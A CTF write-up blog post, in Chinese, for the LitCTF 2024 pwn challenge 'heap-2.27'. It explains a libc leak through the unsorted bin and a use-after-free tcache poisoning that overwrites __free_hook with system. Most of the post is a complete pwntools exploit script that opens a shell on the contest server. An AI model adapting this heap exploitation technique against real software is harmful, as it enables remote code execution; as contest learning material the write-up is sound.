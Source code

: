 ```yaml
---
title: '[LitCTF 2024]heap-2.27'
date: 2024-11-13 0:20 +0800
categories: [ctf,pwn]
tags: [unsortbin_leaklibc,free_hook]
---
```

> Problem: [[LitCTF 2024]heap-2.27](https://www.nssctf.cn/problem/5615)

## 思路

通过`unsortbin`泄漏`libc`地址，根据地址找到`free_hook`函数所在。
`delete`函数中存在`uaf`，使得我们能够修改已经释放的堆块，因此，我们可以通过修改堆块的`fd`申请到任意内存位置的堆块，实现`free_hook`劫持。
需要了解unsortbin生成条件，free_hook劫持原理。

## EXP

```python3

from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
#elf = ELF('./heap')
lib = ELF('/root/tools/glibc-all-in-one/libs/2.27-3ubuntu1.5_amd64/libc.so.6')
#io = gdb.debug('./heap')
io = remote('node4.anna.nssctf.cn',28014)
def create(idx,size):
    io.sendlineafter(b'>>',str(1))
    io.sendlineafter(b'idx? ',str(idx))
    io.sendlineafter(b'size? ',str(size))

def delete(idx):
    io.sendlineafter(b'>>',str(2))
    io.sendlineafter(b'idx? ',str(idx))

def show(idx):
    io.sendlineafter(b'>>',str(3))
    io.sendlineafter(b'idx? ',str(idx))

def edit(idx,content):
    io.sendlineafter(b'>>',str(4))
    io.sendlineafter(b'idx? ',str(idx))
    io.sendlineafter(b'content :',content)

create(0,0x10)
create(1,0x420)
create(2,0x10)
delete(1)
show(1)

free_hook = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))+0x1c48
log.info(hex(free_hook))
libc_base = free_hook-lib.sym['__free_hook']
sys_addr = libc_base + lib.sym['system']
#pause()

create(3,0x10)
delete(3)
edit(3,p64(free_hook))
create(4,0x10)
create(5,0x10)
#pause()
edit(5,p64(sys_addr))
edit(4,b'/bin/sh')
delete(4)


io.interactive()```

## 总结
	学到一个小技巧，在pwngdb中可以通过`p &__free_hook`配合`distance`确定位置。

